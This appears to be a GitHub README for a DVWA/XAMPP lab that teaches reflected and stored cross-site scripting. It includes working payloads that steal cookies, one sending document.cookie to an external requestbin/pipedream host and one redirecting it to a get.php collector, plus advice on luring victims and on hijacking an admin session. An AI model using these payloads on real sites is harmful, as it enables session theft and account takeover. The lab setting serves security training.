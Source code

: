 # Cross-site-Scripting_XSS
## 1. Installation
- Move the directory "dvwa" and "mywebsite" to the xampp installation directory
For example:
E:\ xampp\htdocs\dvwa
E:\xampp\htdocs\mywebsite

- Upload the file "dvwa.sql" to: http://localhost/phpmyadmin/

## 2. Deploy and attack
### - Access url: http://localhost/dvwa/

### - XSS - Reflected
+ Identify website with XSS reflected error?
+ After determining that there are errors XSS Reflected. Send the link to the user. (The ability to seduce the victim depends on each person, assuming we can seduce the victim to click on the link)
+ Access to https://requestbin.com/ to Create request bin (In this example, my request bin is https://requestbin.com/r/en3xwxviv17aq)
+ Insert the script: <script>document.write('<IMG SRC=\"https://en3xwxviv17aq.x.pipedream.net?cookie='+document.cookie+'\">Hello</IMG>');</script>
+ View the cookie you just got and exploit that cookie
(Go to https://requestbin.com/r/en3xwxviv17aq to exploit the cookies you just grabbed)

### - XSS - Stored
+ Create 2 files: get.php (get cookie) and cookie.txt (empty to save her
+ Upload to site message will save to guestbook in database (dvwa.sql)
+ Login as customer to insert code to get admin cookie: <script>window.location="http://localhost/mywebsite/get.php?cookie="+document.cookie;</script>

+ the link to the get.php file contains the code to get the cookie you just created
+ Now switch to the admin account
+ When the admin accesses, the admin will successfully self-direct and get the admin cookie
+ Use add-on on your browser to access when you know the admin cookie
+ Login as admin successfully (No need to know password)

# Note: To use cookie exploited from the victim, each browser must install the cookie tool (add-on) depending on the extendtions of each browser.
